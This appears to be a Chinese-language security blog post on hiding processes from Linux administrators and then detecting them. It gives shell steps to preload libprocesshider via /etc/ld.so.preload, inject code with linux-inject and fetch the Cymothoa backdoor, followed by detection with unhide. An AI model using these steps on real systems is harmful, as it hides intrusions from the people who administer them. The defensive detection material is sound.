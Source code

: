 # Linux进程隐藏与检测




## 进程隐藏

让管理员无法通过相关命令工具查找到你运行的进程，从而达到隐藏目的，实现进程隐藏。



**网上很多方法基本都是通过如下方式来达到进程隐藏：**

1.根据分组权限来实现不同用户组查看不同的进程权限。

2.修改内核，将需要隐藏的进程的进程pid改为0（**task->pid = 0**），因为ps,top命令不会显示进程id为0的进程。

3.修改内核，hook掉系统调用，在hook函数中修改逻辑判断已达到隐藏进程。

4.在用户态修改系统调用，从而隐藏进程(libprocesshider就是此方法)。

> 以下方法与上述无直接对应关系

### 第一种方法：libprocesshider

github项目地址：https://github.com/gianlucaborello/libprocesshider

利用`LD_PRELOA`来实现系统函数的劫持，实现如下

```bash
# 下载程序编译 
git clone https://github.com/gianlucaborello/libprocesshider.git 
cd libprocesshider/ && make 

# 移动文件到/usr/local/lib/目录下 
cp libprocesshider.so /usr/local/lib/ 

# 把它加载到全局动态连接局 
echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
```



测试运行evil_script.py

此时发现在top 与 ps 中都无法找到 evil_script.py





### 第二种方法：进程注入工具linux-inject

linux-inject是用于将共享对象注入Linux进程的工具

github项目地址： https://github.com/gaffffe23/linux-inject.git

```bash
# 下载程序编译 
git clone https://github.com/gaffe23/linux-inject.git 

cd linux-inject && make 

# 测试进程 
./sample-target 

# 进程注入 
./inject -n sample-target sample-library.so
```



验证进程注入成功，如下图所示：





### Cymothoa

Cymothoa是一款隐秘的后门工具。它通过向目标主机活跃的进程注入恶意代码，从而获取和原进程相同的权限。该工

具最大的优点就是不创建新的进程，不容易被发现。

下载地址：https://sourceforge.net/projects/cymothoa/fifiles/cymothoa-1-beta/

```bash
# 下载解压 
wget https://jaist.dl.sourceforge.net/project/cymothoa/cymothoa-1-beta/cymothoa-1-beta.tar.gz 

tar zxvf cymothoa-1-beta.tar.gz 

#
cd cymothoa-1-beta && make
```







## 检测隐藏进程

unhide 是一个小巧的网络取证工具，能够发现那些借助rootkit，LKM及其它技术隐藏的进程和TCP / UDP端口。这个

工具在Linux，UNIX类，MS-Windows等操作系统下都可以工作。

下载地址：http://www.unhide-forensics.info/

```bash
# 安装
sudo yum install unhide 

# 使用 
unhide [options] test_list
```

使用 命令`unhide proc`发现隐藏进程evil_script.py









## 参考

https://blog.csdn.net/weixin_45225923/article/details/120122800

https://blog.csdn.net/weixin_30300523/article/details/99481499

https://blog.csdn.net/weixin_29635919/article/details/116554850?spm=1001.2101.3001.6650.1&utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7ECTRLIST%7Edefault-1.pc_relevant_default&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7ECTRLIST%7Edefault-1.pc_relevant_default&utm_relevant_index=2









---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/linux%E8%BF%9B%E7%A8%8B%E9%9A%90%E8%97%8F%E4%B8%8E%E6%A3%80%E6%B5%8B/  

